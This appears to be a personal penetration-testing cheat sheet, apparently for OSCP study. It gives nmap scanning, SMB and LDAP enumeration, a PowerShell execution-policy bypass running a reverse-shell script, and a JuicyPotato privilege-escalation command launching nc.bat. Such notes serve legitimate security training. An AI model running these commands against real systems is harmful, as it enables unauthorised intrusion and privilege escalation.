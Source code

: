 # Recon

```
$ nmap -v -sSV -p [port1, port2] -Pn [host] -oN [filename]   # verbose, syn-stealth, svc versions, target ports, no-ping,
$ nmap -v -sUV -p [port1, port2] -Pn [host] -oN [filename]   # UDP
```


## Initial Exploitation

### Shells

Have a web shell? Check if server can reach you:
```
$ sudo tcpdump -i tun0 -n icmp -v
```

Execute PowerShell script non-interactively:
```
$ powershell -executionpolicy bypass ".\rshell.ps1 arg1 arg2"
```


### FTP [21 TCP]


### SMB/Samba [139, 445 TCP]

Enumerate via. SMB.
```
$ python3 ~/OSCP/Tools/enum4linux-ng/enum4linux-ng.py [target] 
```

Check for SMB vulnerabilities.
```
$ nmap --script smb-vuln-* [target]
```

### LDAP [389,636 etc. etc.]

Enumerate LDAP.
```
$ nmap -n -sV --script "ldap* and not brute" [target]
```


## Linux Privilege Escalation


## Windows Privilege Escalation

### Service Permissions

```
# windows/winXP
> icacls/cacls [fullpath/to/service]

# powershell
PS> Get-Acl
PS> Get-ChildItem | Get-Acl
```

### File & Folder Permissions

### Acecss Token Abuse

https://www.notion.so/CHEATSHEET-ef447ed5ffb746248fec7528627c0405#5cedd479d1c1429e8018211371eec1ad


JuicyPotato - `SeImpersonatePrivilege` or `SeAssignPrimaryPrivilege` is enabled.
```
> whoami /privs
> JuicyPotato.exe -p C:\inetpub\wwwroot\nc.bat -l 443 -t * -c
```



## Password Cracking

Online cracker: https://crackstation.net/
